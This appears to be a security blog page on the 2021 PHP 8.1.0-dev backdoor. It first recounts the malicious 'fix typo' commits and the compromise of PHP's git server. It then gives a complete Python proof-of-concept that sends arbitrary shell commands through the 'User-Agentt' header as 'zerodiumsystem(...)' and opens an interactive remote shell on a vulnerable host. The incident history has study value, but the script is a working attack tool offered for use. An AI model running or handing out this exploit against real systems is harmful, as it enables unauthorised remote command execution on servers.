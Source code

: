 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php81.png "logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
  

* * * 
## 1- The story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 

![php-repo.png](php-repo.png "php-repo.png")

However, taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 
![php-git.png](php-git.png "php-git.png")


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.

![php-logs.jpg](php-logs.jpg "php-logs.jpg")

Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

* * * 

## 2- POC Script

This short exploit script uses the backdoor to provide a pseudo system shell on the host.

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:** [https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)           
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>


